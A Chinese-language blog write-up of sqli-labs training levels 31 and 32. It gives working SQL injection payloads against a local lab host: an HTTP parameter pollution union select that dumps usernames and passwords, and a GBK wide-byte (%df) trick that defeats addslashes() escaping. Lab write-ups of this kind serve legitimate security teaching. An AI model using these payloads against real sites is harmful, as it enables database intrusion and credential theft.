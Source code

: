 ```yaml
---
layout:     post               # 使用的布局（不需要改）
title:     sqli-labs31-41关  # 标题 
subtitle:      #副标题
date:       2020-07-04         # 时间
author:     yanmie             # 作者
header-img: img/.jpg    ##标签这篇文章标题背景图片
catalog: true                       # 是否归档
tags:                               
    - sqli-labs
  
---
```


## ***Less-31 FUN with WAF***

index.php:

payload:`http://192.168.2.222/sqli-labs-master/Less-31/?id=1") --+`

login.php:

也跟·前面一样，闭合方式变了。

payload:`http://192.168.2.222/sqli-labs-master/Less-31/login.php?id=1&id=-2") union select 1,group_concat(username,password),3 from users--+`

## ***Less-32 Bypass addslashes()***

    
    function check_addslashes($string)
    {
    $string = preg_replace('/'. preg_quote('\\') .'/', "\\\\\\", $string);  //escape any backslash
    $string = preg_replace('/\'/i', '\\\'', $string);   //escape single quote with a backslash
    $string = preg_replace('/\"/', "\\\"", $string);//escape double quote with a backslash
      
    
    return $string;
    }


测试单引号、双引号被转义了。

	mysql_query("SET NAMES gbk");

将字符集设置为gbk，可以进行宽字节注入。

gbk中一个汉字占位两字节，所以可以用%df，与后边的反斜杠组成一个汉字，从而使单引号逃逸。

`http://192.168.2.222/sqli-labs-master/Less-32/?id=1%df'`,报错：

	You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1�\'' LIMIT 0,1' at line 1

看出闭合方式单引号闭合，其余方式与前面的关卡类似。

payload:`http://192.168.2.222/sqli-labs-master/Less-32/?id=-1%df' union select 1,database(),3--+`
